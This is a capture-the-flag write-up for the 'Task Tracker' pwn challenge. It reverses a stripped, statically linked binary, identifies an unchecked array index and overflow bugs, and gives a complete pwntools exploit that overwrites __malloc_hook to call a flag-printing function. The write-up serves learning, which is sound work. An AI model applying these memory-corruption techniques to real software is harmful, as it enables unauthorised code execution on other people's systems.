





Task Tracker was the challenge with the highest number of points in the `pwn` category at **400 pts**. It was a challenge that took a while for me to solve, despite its obvious vulnerabilities.


## Basic Information
Let's get some file information from it first (using `file` and [`checksec`](https://docs.pwntools.com/en/stable/commandline.html#pwn-checksec)):

```sh
❯ file tasktracker
tasktracker: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=40ae7a4291500370ce2158854195477ecf9875b3, stripped
❯ checksec tasktracker
[*] 'tasktracker'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
We have a statically linked binary, which means that all external library functions are part of the binary itself. Symbols are stripped, which means that we do not know the name of any functions. Since the binary is statically linked, even the libc functions like `fopen`, `printf`, `read` etc have their names stripped.

 In terms of protections, we have `partial RELRO`, which means that we can still overwrite the `GOT` section, `No canary found`, which means that we have no canary check for overflowing the stack, and `No PIE`, which means that functions in the binary are not shuffled around during execution. Since our binary is statically linked, this also means that functions like `system` and other interesting functions are at a fixed location in memory.

We already a lot of protections disabled, so let's go find some holes to whack.

## Finding vulnerabilities
I used [Ghidra](https://ghidra-sre.org/) for analysis and reversing of the binary. Opening up the file in Ghidra shows us a lot of functions with the default labelling scheme:



That is the effect of stripping the binary. You will also see _a lot_ of functions, which is due to the library being statically linked and including external libaries like `libc`.

### Finding ~~nemo~~ `main`
It would seem very difficult to find `main` at first, but the easiest way is to find the binary's entrypoint (`_entry`), then start from there.



That highlighted function in `_entry` is almost always [__libc_start_main](https://refspecs.linuxbase.org/LSB_3.1.0/LSB-generic/LSB-generic/baselib---libc-start-main-.html).
```c
int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end));
```
The first parameter (in the `RDI` register), is `main`, but if you see invocation of the function, there are a lot of parameters passed in.
The actual `main` function is the first function that is passed in, which is `FUN_00400e48`. For tips on better function decompilation, see [below](#function-signature-mismatch-e-g-libc-start-main).

For the rest of this writeup, I will use my annotated code.

### main

```c
void main() {
  char buf[8];

  setvbuf(stdin,0,2,0);
  setvbuf(stdout,0,2,0);
  void* commands = malloc(0x30);
  commands[0] = welcome;
  commands[1] = show_tasks;
  commands[2] = add_task;
  commands[3] = change_task;
  commands[4] = activate_comm;
  commands[5] = emergency_meeting;

  (commands[0])();

  do {
    menu();
    read(0, buf,8);
    int opt = stroul_base10(buf);
    switch(opt) {
    default:
      puts("Invalid Option. Not sure if you have butter fingers, but you deserve to be voted outanyways.");
      break;
    case 1:
      (*commands[1])();
      break;
    case 2:
      (*commands[2])();
      break;
    case 3:
      (*commands[3])();
      break;
    case 4:
      (*commands[4])();
      break;
    case 5:
      (*commands[5])();
      exit(0);
    }
  } while(true);
}
```
Standard menu-based `main`. But do note that the options (the `command` array) available to us are invoked by the means of a `malloc`'ed array. Seems a bit suspicious? :)
:::tip NOTE
There are other writeups that explore exploitation using this as a tool (House of Force), however my method is different
:::
### show_tasks
```c
void show_tasks() {
  int i;
  
  if (taskcount == 0) {
    puts("Are you doing your tasks?");
  }
  else {
    i = 0;
    while (i < 50) {
      if (tasks[i].name != NULL) {
        printf("Task Number: %d  Task Name : %s", i, tasks[i].name);
      }
      i = i + 1;
    }
    puts("");
  }
  return;
}
```
The `show_task` method is innocuous, but here we get a introduction to our main player: `tasks`. The definition is as below:
```c
struct task {
    int len;
    char* name;
}
struct task tasks[50]; //global
int taskcount; //global
```
### add_task
```c
void add_task() {
  int len;
  char *name;
  ulong read_sz;
  int i;
  byte buf [8];
  
  if (taskcount < 50) {
    printf("Please enter the length of task name:");
    read(0, buf, 8);
    len = stroul_base10(buf);
    if (len == 0) {
      puts("Are you an imposter?");
    }
    else {
      i = 0;
      while (i < 50) {
        if (tasks[i].name == NULL) {
          tasks[i].len = len;
          name = (char *)malloc(len);
          tasks[i].name = name;
          printf("Please enter the name of task:");
          read_sz = read(0,tasks[i].name,len);
          tasks[i].name[(int)read_sz] = '\0'; // BUG: null byte overflow
          taskcount = taskcount + 1;
          break;
        }
        i = i + 1;
      }
    }
  }
  else {
    puts("All tasks have been tracked. Call the Emergency Meeting!");
  }
}
```
This method allows us to create a task, which takes up space in the global `tasks[50]` array. We can allocate an user-selectable sized length of memory for the task name, and the length of this name is stored as `len` for the task. We also see our first bug, which is writing a null byte past the end of the task name if the length of the name is allocated equal to the length of the name requested. This can be exploited via House of [Einherjar](https://heap-exploitation.dhavalkapil.com/attacks/house_of_einherjar), but we have no calls to `free` so nevermind.
### change_task
```c{14,21,24}
void change_task() {
  int idx;
  int len;
  ulong read_sz;
  byte idx_buf [16];
  byte buf [8];
  
  if (taskcount == 0) {
    puts("Are you doing your tasks?");
  }
  else {
    printf("Please enter the index of the task you want to change:");
    read(0,idx_buf,8);
    idx = stroul_base10(idx_buf);
    if (tasks[idx].name == NULL) {
      puts("That is what an imposter would say.");
    }
    else {
      printf("Enter the length of task name:");
      read(0,buf,8);
      len = stroul_base10(buf);
      printf("Enter the new task name:");
      read_sz = read(0,tasks[idx].name,len);
      tasks[idx].name[(int)read_sz] = '\0';
    }
  }
}
```
Here we see 3 bugs, 2 of which are usable for our exploitation. The third line highlighted is the same bug as before, which we cannot exploit. The first two bugs are as follows:
1. Unchecked array access
    - We see that there is no checking on the index of the task we want to change, so we can we can go past the `tasks[50]` array. Since we use `strtoul`, we can use negative indices as well.
2. Overflow into heap chunk
    - Despite the length of the task name being stored inside the `task` struct as `task.len`, it is ignored and instead unchecked user input is used as the length of name, so we can write past the memory region of `task.name` and into other heap chunks.

For my exploit, I only used vulnerability (1) to exploit the binary.

### activate_comm & emergency_meeting
```c
void activate_comm() {
  puts("-. .. -.-. .");
  puts("- .-. -.-- --..--");
  puts(".. -- .--. --- ... - . .-. .-.-.-");
  puts("-... ..- -");
  puts("..");
  puts("-.-. .- -.");
  puts("- . .-.. .-..");
  puts("-.-- --- ..-");
  puts("-- -.--");
  puts("--. .-.. .. -... -.-.");
  puts("...- . .-. ... .. --- -.");
  puts(".. ...");
  puts("..--- .-.-.- ..--- --... .-.-.-");
  return;
}

void emergency_meeting() {
  puts("All tasks have been tracked and the imposter have been identified");
  return;
}
```

Nothing interesting here
### ~~hidden~~ flag function
Based on previous challenges, I expected the possibility of a simple function that we can jump to that will print out the flag. Searching strings that match "flag" and listing the cross-references, I see this function:
```c
void win(void) {
  ulong fd;
  char buf [72];
  
  fd = fopen("flag.txt");
  read((int)fd,buf,0x40);
  fclose((int)fd);
  printf(&"%s",buf);
  exit(0);
}
```

So our target is to call this function.

## Exploitation
Since the target is statically linked and we can access any address relative to the global `tasks[50]` array (in the `.bss` section), I choose to overwrite the `__malloc_hook` function pointer with the `win` function and get it called on the next `malloc`, when I either `add_task` or `change_task`. 

`__malloc_hook` is a function pointer in `libc` that is present so that users can override the default functionality of `malloc` for the purposes of instrumentation or debugging. When there is a call to `malloc`, this function pointer is checked, and if non-zero, will be called and the rest of the code in `malloc` is not executed. This function pointer is a favourite among pwners to overwrite, along with its friend `__free_hook`. Since our binary is statically linked, this function pointer is present in our `.bss`.

::: warning TIME WASTED
Why overwrite `__malloc_hook`? Why use this vulnerability? Initially, I did not see the `win` function. My aim was to call `system("/bin/sh")` to get shell. Overwriting `__malloc_hook` to `system`, and passing a parameter that points to `"/bin/sh"` somewhere in memory to `malloc` was my initial aim. This is possible via `add_task`, where we can control the input we send to `malloc`, and thus to `__malloc_hook`. But the challenge authors decided to give us a freebie and include a `win` function. If we use House of Force to overwrite into the `commands` array, which is the other solution, we cannot really control the parameters passed into the function, which is why I did not use it.
:::

Now, we work backwards. If we want to write into `__malloc_hook`, we need something that points to it, but normally no such global variables exist. However, there will be some global variables that point to other global variables (e.g. A -> B). If we overwrite the target global variable to point to `__malloc_hook`, we can write into it. To summarize:
```c
// Find some global variable A that already points to B
A              ->           B         ->         ?


                            _malloc_hook   ->           0
.
.
.
tasks[50]


// Now, `change_task` on A, so that B points to __malloc_hook instead of it's previous value
A              ->           B                    ?
                            |
                            V
                            _malloc_hook   ->           0
.
.
.
tasks[50]


// Now, `change_task` on B so that we can overwrite __malloc_hook to point to win
A              ->           B                    ?
                            |
                            V
                            _malloc_hook   ->           win
.
.
.
tasks[50]
```

Such A & B can be found at 0x6cc068, pointing to 0x6c800. These vales were found by scrolling backwards from the global `tasks[50]` array to find a pointer that points to another value in the `.bss`.

We have to keep in mind that we have to pass a index to into the `tasks[50]` array, so we have to find the difference between our target address and the start of the `tasks[50]` array, divded by 0x10, the size of a task.

The full exploit is as below:

```py
from pwn import *

if 'REMOTE' in args:
    conn = remote("ctf-ptb1.balancedcompo.site 9997")
else:
    conn = process("./tasktracker")

target = 0x06cb788 # malloc_hook
win = 0x0400d51 

# for easier calculation of the index that we should pass into `change_task`
def ptr_to(x):
    note = 0x06ccbc0 # tasks[50]
    return (x-note)/0x10-1

def add(len, task):
    conn.sendlineafter("choice:", "2")
    conn.sendlineafter("name:", str(len))
    conn.sendafter("task:", task)

def change(idx, len, task):
    conn.sendlineafter("choice:", "3")
    conn.sendlineafter("change:", str(idx))
    conn.sendlineafter("name:", str(len))
    conn.sendafter("name:", task)

# add a task, so that can change is later
add(0x10, b'a'*0x10)
# change B to point to target = __malloc_hook. Note that the p64(1) is just for padding
change(ptr_to(0x06cc068), 0x10, p64(1) + p64(target))
# change __malloc_hook to point to win
change(ptr_to(0x6cb800+0x10), 8, p64(win))
# just to trigger the call to `malloc`, and thus `__malloc_hook` and our `win` function
add(0x40, b'a'*0x10)

conn.interactive()
```

## Tips
### Decompilation
#### Basics
- `Rename`, `Change Data Type`: Use these to rename functions and variables and change their types (how useful is undefinedX as a type, anyway?)
- `Auto-create Structure`, `Structure Editor -> Rename Field`: Create structs and make their field names conistent. This, paired with the above `Change Data Type` means that most code using structs will be better to look at.

#### Function Signature Mismatch (e.g. __libc_start_main)
Opening up the function signature (Right Click the function -> Edit Function Signature)
. Following the [Linux 64-bit calling convention](https://www.wikiwand.com/en/X86_calling_conventions#/System_V_AMD64_ABI), the order of passing parameters are as so:
```
RDI, RSI, RDX, RCX, R8, R9, [XYZ]MM0–7
```
Re-ordering the parameters to fit the calling convention, we get:

and our function invocation is as such:


Matches the actual function signature of `__libc_start_main` very nicely.

### Finding library functions
This is generally a very difficult thing to do, but Ghidra does have some help in this area by the means of [FIDB](https://www.youtube.com/watch?v=P8Ul2K7pEfU) and [ghidra-fidb-repo](https://github.com/threatrack/ghidra-fidb-repo). Other than that, using a debugger to pause execution before a suspected library function, looking at the parameters being passed in and the return value/output, is a valid method as well.

### Debugging
These kind of challenges are hard to debug, especially if you want a efficient edit-run-check cycle. Using proper tools like [pwntools.gdb.attach](https://docs.pwntools.com/en/stable/gdb.html) and [gef](https://gef.readthedocs.io/en/master/) can make life easier.

## Conlcusion
For its point allocation, this challenge wasn't so hard. Overall, the `pwn` challenges for this CTF were mostly easy. Sadly no fun heap challenges :(